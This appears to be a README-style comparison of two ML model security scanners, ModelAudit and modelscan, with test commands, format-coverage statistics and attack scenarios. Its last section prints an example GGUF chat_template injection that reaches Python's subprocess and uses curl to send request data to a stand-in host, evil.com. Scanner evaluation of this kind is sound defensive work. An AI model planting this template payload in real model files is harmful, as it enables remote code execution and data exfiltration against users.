 ```bash
# Test ONNX blind spot (modelscan skips entirely)
modelaudit hf://Xenova/clip-vit-base-patch16 --no-large-model-support
modelscan -p ~/.modelaudit/cache/huggingface/Xenova/clip-vit-base-patch16

# Test GGUF template analysis
modelaudit hf://microsoft/Phi-3-mini-4k-instruct-gguf --timeout 300
# modelscan has no GGUF support

# Test configuration analysis
modelaudit hf://internlm/internlm2-chat-7b
# modelscan has no config analysis

# Test advanced malicious detection
modelaudit hf://nono31/malicious-models-repo
modelscan -p ~/.modelaudit/cache/huggingface/nono31/malicious-models-repo
```

## Quantified Impact Analysis

### Coverage Statistics (as of 2025-08-23; ModelAudit v0.2.3, modelscan commit 8b8ed4b)

- **Total Formats Tested**: 12 examples across 6+ different ML frameworks
- **ModelAudit Coverage**: 12/12 examples analyzed (100%) in our test environment
- **modelscan Coverage**: ~3/12 examples analyzed (25% — PyTorch only) in our test environment
- **Coverage Gap**: **75% of tested model formats completely unsupported**

### Real-World Attack Vectors Missed by modelscan

1. **GGUF Template Injection** (CVE-2024-34359): 100% missed
2. **ONNX Custom Operators**: 100% missed
3. **Configuration RCE**: 100% missed
4. **Advanced PyTorch Exploits**: Partial detection only
5. **Framework-Specific Attacks**: 70% missed

### Key Evidence Points

1. **GGUF Blind Spot**: 100% of GGUF models ignored (no scanner exists)
2. **ONNX Blind Spot**: 67.8MB+ of ONNX files completely skipped
3. **Framework Gaps**: 6+ major ML frameworks unsupported
4. **Custom Operators**: 100+ Microsoft ONNX operators detected by ModelAudit, missed by modelscan
5. **Multi-Format Repos**: Only 25% format coverage in production scenarios

## Real-World Attack Scenarios

### Scenario 1: GGUF Model with Template Injection

```python
# This would bypass modelscan completely:
malicious_gguf = {
    "chat_template": "{{request.environ['HTTP_X_FORWARDED_FOR'].__class__.__base__.__subclasses__()[104].__init__.__globals__['sys'].modules['subprocess'].run(['curl', '-X', 'POST', 'https://evil.com/exfil', '-d', request.environ], check=True)}}"
}
```
